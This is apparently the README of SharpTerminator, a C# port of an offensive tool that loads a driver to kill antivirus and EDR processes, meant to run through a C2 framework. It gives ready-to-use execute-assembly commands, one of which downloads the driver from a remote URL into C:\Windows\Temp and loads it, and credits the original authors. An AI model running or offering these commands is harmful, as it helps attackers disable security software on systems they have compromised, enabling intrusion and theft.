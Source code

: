 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

When using Remote URL, the driver is downloaded to "C:\Windows\Temp" and then loaded from there.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
execute-assembly SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:
![image](![image](https://github.com/mertdas/SharpTerminator/assets/48562581/6c13552b-6bc2-4b3f-8af4-e70f0952ec9b))

### Load driver from disk and terminate AV/EDR:

![image](https://github.com/mertdas/SharpTerminator/assets/48562581/232b67b0-f5c6-44cc-936d-d6acdb617a74)

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

